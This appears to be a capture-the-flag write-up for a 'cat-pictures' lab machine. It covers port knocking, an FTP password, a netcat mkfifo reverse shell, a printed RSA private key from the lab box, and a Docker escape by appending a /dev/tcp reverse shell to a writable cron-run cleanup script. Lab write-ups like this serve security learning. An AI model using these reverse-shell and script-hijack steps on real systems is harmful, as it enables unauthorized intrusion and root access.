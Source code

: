```yaml
---
sticker: emoji//1f63a
---
```


# PORT SCAN
---


| PORT | SERVICE     |
| :--- | :---------- |
| 21   | FTP         |
| 22   | SSH         |
| 4420 | NVM-EXPRESS |
| 8080 | HTTP        |




# RECONNAISSANCE
---

If we try interacting with the `4420` port, we need a password, for it, we can go to `ftp` and check this, on there, we will get:

```
sardinethecat
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612135655.png)
But, before all of this, we need to go to the website in which we will find this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612142859.png)

The FTP port will appear as filter if we don't do `port knocking`, Port knocking is a security technique that involves a client making a series of connection attempts to specific closed ports on a server before a legitimate connection can be established, we need to do port knocking on the specified ports:

```
knock IP 1111, 2222, 3333, 4444
```

Once we knock, the ftp port will be open and we can access to get the password.

Let's begin exploitation.

# EXPLOITATION
---

We got `rce`, let's send ourselves a reverse shell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4444 >/tmp/f
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612135810.png)



We have a `runme` binary on `/home/catlover`:

```
# ls -la /home
total 12
drwxr-xr-x  3    0    0 4096 Apr  2  2021 .
drwxr-xr-x 10 1001 1001 4096 Apr  3  2021 ..
drwxr-xr-x  2    0    0 4096 Apr  3  2021 catlover
# ls -la /home/catlover
total 28
drwxr-xr-x 2 0 0  4096 Apr  3  2021 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
# ./home/catlover/runme
Please enter yout password: sardinethecat
Access Denied
```

It prompts for a password, which we don't have, we cannot get the binary on our home due to the shell being a little rusty, but, when we use cat we can see this little line: 


```
rebeccaPlease enter yout password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd
```

The password is:

```
rebecca
```

This binary generates a `id_rsa` for `catlover`  once the password is correct, we know this by analyzing the binary using `cat`:

```
cat /home/catlover/id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAmI1dCzfMF4y+TG3QcyaN3B7pLVMzPqQ1fSQ2J9jKzYxWArW5
IWnCNvY8gOZdOSWgDODCj8mOssL7SIIgkOuD1OzM0cMBSCCwYlaN9F8zmz6UJX+k
jSmQqh7eqtXuAvOkadRoFlyog2kZ1Gb72zebR75UCBzCKv1zODRx2zLgFyGu0k2u
xCa4zmBdm80X0gKbk5MTgM4/l8U3DFZgSg45v+2uM3aoqbhSNu/nXRNFyR/Wb10H
tzeTEJeqIrjbAwcOZzPhISo6fuUVNH0pLQOf/9B1ojI3/jhJ+zE6MB0m77iE07cr
lT5PuxlcjbItlEF9tjqudycnFRlGAKG6uU8/8wIDAQABAoIBAH1NyDo5p6tEUN8o
aErdRTKkNTWknHf8m27h+pW6TcKOXeu15o3ad8t7cHEUR0h0bkWFrGo8zbhpzcte
D2/Z85xGsWouufPL3fW4ULuEIziGK1utv7SvioMh/hXmyKymActny+NqUoQ2JSBB
QuhqgWJppE5RiO+U5ToqYccBv+1e2bO9P+agWe+3hpjWtiAUHEdorlJK9D+zpw8s
/+9CjpDzjXA45X2ikZ1AhWNLhPBnH3CpIgug8WIxY9fMbmU8BInA8M4LUvQq5A63
zvWWtuh5bTkj622QQc0Eq1bJ0bfUkQRD33sqRVUUBE9r+YvKxHAOrhkZHsvwWhK/
oylx3WECgYEAyFR+lUqnQs9BwrpS/A0SjbTToOPiCICzdjW9XPOxKy/+8Pvn7gLv
00j5NVv6c0zmHJRCG+wELOVSfRYv7z88V+mJ302Bhf6uuPd9Xu96d8Kr3+iMGoqp
tK7/3m4FjoiNCpZbQw9VHcZvkq1ET6qdzU+1I894YLVu258KeCVUqIMCgYEAwvHy
QTo6VdMOdoINzdcCCcrFCDcswYXxQ5SpI4qMpHniizoa3oQRHO5miPlAKNytw5PQ
zSKoIW47AObP2twzVAH7d+PWRzqAGZXW8gsF6Ls48LxSJGzz8V191PjbcGQO7Oro
Em8pQ+qCISxv3A8fKvG5E9xOspD0/3lsM/zGD9ECgYBOTgDAuFKS4dKRnCUt0qpK
68DBJfJHYo9DiJQBTlwVRoh/h+fLeChoTSDkQ5StFwTnbOg+Y83qAqVwsYiBGxWq
Q2YZ/ADB8KA5OrwtrKwRPe3S8uI4ybS2JKVtO1I+uY9v8P+xQcACiHs6OTH3dfiC
tUJXwhQKsUCo5gzAk874owKBgC/xvTjZjztIWwg+WBLFzFSIMAkjOLinrnyGdUqu
aoSRDWxcb/tF08efwkvxsRvbmki9c97fpSYDrDM+kOQsv9rrWeNUf4CpHJQuS9zf
ZSal1Q0v46vdt+kmqynTwnRTx2/xHf5apHV1mWd7PE+M0IeJR5Fg32H/UKH8ROZM
RpHhAoGAehljGmhge+i0EPtcok8zJe+qpcV2SkLRi7kJZ2LaR97QAmCCsH5SndzR
tDjVbkh5BX0cYtxDnfAF3ErDU15jP8+27pEO5xQNYExxf1y7kxB6Mh9JYJlq0aDt
O4fvFElowV6MXVEMY/04fdnSWavh0D+IkyGRcY5myFHyhWvmFcQ=
-----END RSA PRIVATE KEY-----
```

We got our private key and can now connect to ssh:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612141930.png)
# PRIVILEGE ESCALATION
---

We are root but the root flag is nowhere to be found, this is because we are inside of a `Docker container`, we can know this with linpeas and `ls -la /`:

```
root@7546fa2336d6:/opt/clean# ls -la /
total 112
drwxr-xr-x   1 root root 4096 Jun 12 19:22 .
drwxr-xr-x   1 root root 4096 Jun 12 19:22 ..
-rw-------   1 root root  596 Jun 12 19:18 .bash_history
-rwxr-xr-x   1 root root    0 Mar 25  2021 .dockerenv
drwxr-xr-x   1 root root 4096 Apr  9  2021 bin
drwxr-xr-x   3 root root 4096 Mar 24  2021 bitnami
drwxr-xr-x   2 root root 4096 Jan 30  2021 boot
-rw-r--r--   1 root root   62 Jun 12 19:22 clean.sh
drwxr-xr-x   5 root root  340 Jun 12 19:09 dev
drwxr-xr-x   1 root root 4096 Apr  9  2021 etc
drwxr-xr-x   2 root root 4096 Jan 30  2021 home
drwxr-xr-x   1 root root 4096 Sep 25  2017 lib
drwxr-xr-x   2 root root 4096 Feb 18  2021 lib64
drwxr-xr-x   2 root root 4096 Feb 18  2021 media
drwxr-xr-x   2 root root 4096 Feb 18  2021 mnt
drwxrwxr-x   1 root root 4096 Mar 25  2021 opt
drwxrwxr-x   2 root root 4096 Mar 24  2021 post-init.d
-rwxrwxr-x   1 root root  796 Mar 24  2021 post-init.sh
dr-xr-xr-x 131 root root    0 Jun 12 19:09 proc
drwx------   1 root root 4096 Mar 25  2021 root
drwxr-xr-x   4 root root 4096 Feb 18  2021 run
drwxr-xr-x   1 root root 4096 Apr  9  2021 sbin
drwxr-xr-x   2 root root 4096 Feb 18  2021 srv
dr-xr-xr-x  13 root root    0 Jun 12 19:23 sys
drwxrwxrwt   1 root root 4096 Jun 12 19:27 tmp
drwxrwxr-x   1 root root 4096 Mar 24  2021 usr
drwxr-xr-x   1 root root 4096 Feb 18  2021 var
```

As seen, `.dockerenv` is on here, we need a way to get into root
If we check the `/opt` directory we can find a `clean.sh` script that does this:

```
root@7546fa2336d6:/# cat /opt/clean/clean.sh
#!/bin/bash

rm -rf /tmp/*
```

We have write permissions so we can simply modify it to a reverse shell:

```
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/IP/1111 0>&1'" >> /opt/clean/clean.sh
```

This script runs each a couple minutes so wait and have the listener ready, we know this by taking a look at the `.bash_history` file:

```
root@7546fa2336d6:/opt/clean# cat /.bash_history
exit
exit
exit
exit
exit
exit
exit
ip a
ifconfig
apt install ifconfig
ip
exit
nano /opt/clean/clean.sh
ping 192.168.4.20
apt install ping
apt update
apt install ping
apt install iptuils-ping
apt install iputils-ping
exit
ls
cat /opt/clean/clean.sh
nano /opt/clean/clean.sh
clear
cat /etc/crontab
ls -alt /
cat /post-init.sh
cat /opt/clean/clean.sh
bash -i >&/dev/tcp/192.168.4.20/4444 <&1
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
cat /var/log/dpkg.log
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
exit
exit
exit
ls
exit
```


Once the script runs again, we get a shell as root but in the real machine:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612143517.png)

We can now get both flags:

```
root@7546fa2336d6:/opt/clean# cat /root/flag.txt
7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9

root@cat-pictures:~# cat /root/root.txt
Congrats!!!
Here is your flag:

4a98e43d78bab283938a06f38d2ca3a3c53f0476
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612143705.png)

